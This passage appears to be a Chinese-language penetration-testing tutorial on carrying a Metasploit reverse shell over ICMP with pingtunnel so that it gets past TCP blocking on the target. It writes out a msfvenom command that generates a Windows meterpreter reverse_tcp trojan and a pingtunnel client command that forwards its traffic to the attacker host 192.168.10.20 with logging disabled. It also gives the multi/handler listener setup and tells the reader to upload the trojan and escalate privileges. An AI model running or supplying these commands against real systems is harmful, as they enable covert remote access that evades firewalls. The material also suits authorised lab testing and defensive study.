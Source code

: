 #### 区别介绍

可能会发现，这里我们生成的木马是127.0.0.1了，这是由于需要配合刚刚的TCP转ICMP工具，可以看下面的命令我再一条一条解释：

MSF生成木马：由于再目标主机上TCP已经被封杀了，如果我们还写攻击机的IP地址，那么当运行木马的时候，会直接被拦截，导致木马失效，而如果设置木马为本地地址，那么就不会被封杀，只是会再本地一直停留打转，但这样可以确保木马在运行的状态。

工具转发命令：而工具转发，首先工具去将刚刚木马的127.0.0.1：5555端口的流量封装成ICMP流量，然后将这个流量转发到192.168.10.20：6666上，而且192.168.10.20也就是我们的攻击机，这样就完成了整套的流量封装与转发。

而我们要监听的端口，以往都是木马设定的回连端口是多少，我们就监听多少，而现在我们要监听的端口是工具转发回来的端口，也就是6666.

```
MSF生成木马：
msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=5555 -f exe > msf.exe

工具转发命令：
pingtunnel.exe -type client -l 127.0.0.1:5555 -s 192.168.10.20 -t 192.168.10.20:6666 -tcp 1 -noprint 1 -nolog 1
```

#### 生成木马

关于生成木马，命令上面都有了，这里我就不说了，然后将木马上传到目标机器中。

![image-20230516104133278](https://s2.loli.net/2023/05/16/Htp4ZIMeNPiOkdx.png)

#### 设置监听

这里我们需要设置监听的IP为0.0.0.0，确保能够正常监听到。

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 6666
run
```

![image-20230516104332971](https://s2.loli.net/2023/05/16/lDd3LGu1tNRMABU.png)

### 正式测试

到这里，我们前期的准备都OK了，下面我们就开始正式的操作吧。

#### 目标主机测试

这里我们将目标主机上的木马进行运行，然后再运行工具，主要这里运行工具需要使用最高权限，简单来说，当你获取到域内主机的时候，需要先提权，然后在转发。

这里我发现，如果先执行木马再运行工具，MSF无法上线，需要先运行工具，然后在执行木马才可以上线。

```
pingtunnel.exe -type client -l 127.0.0.1:5555 -s 192.168.10.20 -t 192.168.10.20:6666 -tcp 1 -noprint 1 -nolog 1
```
